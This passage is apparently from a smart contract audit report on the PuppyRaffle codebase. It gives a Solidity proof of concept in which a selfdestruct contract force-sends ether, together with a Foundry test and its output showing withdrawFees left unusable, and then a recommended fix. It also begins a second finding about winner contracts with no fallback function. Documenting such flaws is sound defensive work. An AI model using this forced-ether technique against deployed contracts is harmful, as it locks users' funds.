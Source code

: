 Add this contract above `PuppyRaffleTest`:
```
contract Kill {
    constructor  (address target) payable {
        address payable _target = payable(target);
        selfdestruct(_target);
    }
}
```
Modify `setUp` as follows:
```
    function setUp() public {
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );
        address mAlice = makeAddr("mAlice");
        vm.deal(mAlice, 1 ether);
        vm.startPrank(mAlice);
        Kill kill = new Kill{value: 0.01 ether}(address(puppyRaffle));
        vm.stopPrank();
    }
```
Now run `testWithdrawFees()` - ` forge test --mt testWithdrawFees` to get:
```
Running 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[FAIL. Reason: PuppyRaffle: There are currently players active!] testWithdrawFees() (gas: 361718)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 3.40ms
```
Any small amount sent over by a self destructing contract will make `withdrawFees` function unusable, leaving no other way of taking the fees out of the contract.

**Impact** All fees that weren't withdrawn and all future fees are stuck in the contract.

**Recommendations**

Avoid using `address(this).balance` in this way as it can easily be changed by an attacker. Properly track the `totalFees` and withdraw it.

```diff
    function withdrawFees() external {
--      require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

### [M-02] Impossible to win raffle if the winner is a smart contract without a fallback function

**Summary** If a player submits a smart contract as a player, and if it doesn't implement the `receive()` or `fallback()` function, the call use to send the funds to the winner will fail to execute, compromising the functionality of the protocol.
